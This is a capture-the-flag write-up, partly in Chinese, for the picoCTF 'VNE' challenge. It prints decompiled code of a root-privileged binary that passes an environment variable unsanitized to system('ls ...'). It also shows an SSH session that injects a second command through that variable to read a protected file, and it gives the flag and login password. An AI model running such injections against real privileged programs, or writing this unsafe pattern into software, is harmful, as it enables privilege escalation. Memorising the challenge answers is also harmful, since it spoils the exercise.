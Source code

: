 # PicoCTF - VNE
## Background
System Environment
Command Injection

## Description & Hint
We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53176, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
* Hint 1: Have you checked the content of the /root folder
* Hint 2: Find a way to add more instructions to the ls

## Source Code
:::spoiler IDA Main Function
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int v4; // ebx
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  const char *v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  char v12; // [rsp+3h] [rbp-6Dh] BYREF
  unsigned int v13; // [rsp+4h] [rbp-6Ch]
  char *v14; // [rsp+8h] [rbp-68h]
  char v15[32]; // [rsp+10h] [rbp-60h] BYREF
  char v16[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v17; // [rsp+58h] [rbp-18h]

  v17 = __readfsqword(0x28u);
  v14 = getenv("SECRET_DIR");
  if ( v14 )
  {
    v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Listing the content of ");
    v6 = std::operator<<<std::char_traits<char>>(v5, v14);
    v7 = std::operator<<<std::char_traits<char>>(v6, " as root: ");
    std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
    std::allocator<char>::allocator(&v12);
    std::string::basic_string(v16, v14, &v12);
    std::operator+<char>(v15, "ls ", v16);
    std::string::~string(v16);
    std::allocator<char>::~allocator(&v12);
    setgid(0);
    setuid(0);
    v8 = (const char *)std::string::c_str(v15);
    v13 = system(v8);
    if ( v13 )
    {
      v9 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: system() call returned non-zero value: ");
      v10 = std::ostream::operator<<(v9, v13);
      std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
      v4 = 1;
    }
    else
    {
      v4 = 0;
    }
    std::string::~string(v15);
  }
  else
  {
    v3 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: SECRET_DIR environment variable is not set");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    return 1;
  }
  return v4;
}
```
:::
## Recon
這一題也是蠻有趣的，題目有說要先執行bin，可以用winscp遠端把執行檔dump到local端，然後用IDA逆一下，就會發現它其實就是執行ls而已，所以我們就要用簡單的command injection達到RCE
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 58395
$ ./bin
Error: SECRET_DIR environment variable is not set
$ export SECRET_DIR=/challenge/
$ ./bin
Listing the content of /challenge/ as root:
config-box.py  metadata.json  profile
$ export "SECRET_DIR=/;cat /challenge/metadata.json"
$ ./bin
Listing the content of /;cat /challenge/metadata.json as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
{"flag": "picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}", "password": "d137d16e"}
```

Flag: `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`